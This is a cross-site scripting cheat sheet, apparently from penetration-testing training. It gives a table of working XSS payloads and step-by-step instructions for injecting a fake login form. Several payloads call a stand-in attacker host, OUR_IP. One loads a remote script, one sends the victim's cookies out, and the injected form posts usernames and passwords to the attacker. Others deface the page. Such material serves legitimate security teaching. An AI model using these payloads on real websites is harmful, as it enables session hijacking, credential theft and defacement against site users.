 # XSS



| Code                                                                                                                                                                                                                                                                                                                                                                                                  | Description                         |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------- |
| `<script>alert(window.origin)</script>`                                                                                                                                                                                                                                                                                                                                                               | Basic XSS Payload                   |
| `<plaintext>`                                                                                                                                                                                                                                                                                                                                                                                         | Basic XSS Payload                   |
| `<script>print()</script>`                                                                                                                                                                                                                                                                                                                                                                            | Basic XSS Payload                   |
| `<img src="" onerror=alert(window.origin)>`                                                                                                                                                                                                                                                                                                                                                           | HTML-based XSS Payload              |
| `<script>document.body.style.background = "#141d2b"</script>`                                                                                                                                                                                                                                                                                                                                         | Change Background Color             |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`                                                                                                                                                                                                                                                                                                         | Change Background Image             |
| `<script>document.title = 'HackTheBox Academy'</script>`                                                                                                                                                                                                                                                                                                                                              | Change Website Title                |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                                                                                                                                                                                                                                                                                                                        | Overwrite website's main body       |
| `<script>document.getElementById('urlform').remove();</script>`                                                                                                                                                                                                                                                                                                                                       | Remove certain HTML element         |
| `<script src="http://OUR_IP/script.js"></script>`                                                                                                                                                                                                                                                                                                                                                     | Load remote script                  |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`                                                                                                                                                                                                                                                                                                                       | Send Cookie details to us           |
|                                                                                                                                                                                                                                                                                                                                                                                                       | Load remote ini file via iframe tag |
| <p></p><pre class="language-javascript"><code class="lang-javascript">document.write('&#x3C;h3>Please login to continue&#x3C;/h3>&#x3C;form action=http://OUR_IP>&#x3C;input type="username" name="username" placeholder="Username">&#x3C;input type="password" name="password" placeholder="Password">&#x3C;input type="submit" name="submit" value="Login">&#x3C;/form>');
</code></pre><p><br></p> | Login Form Injection                |

**How to perform basic Login Form Injection via Reflected XSS** \
\
Step 1: Test vulnerable form for the remove function by running script in console (Dev-Tools)

```
document.getElementById('urlform').remove();
```

Step 2: Inject form into webpage with XSS payload by executing the below script into console (Dev-tools)

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
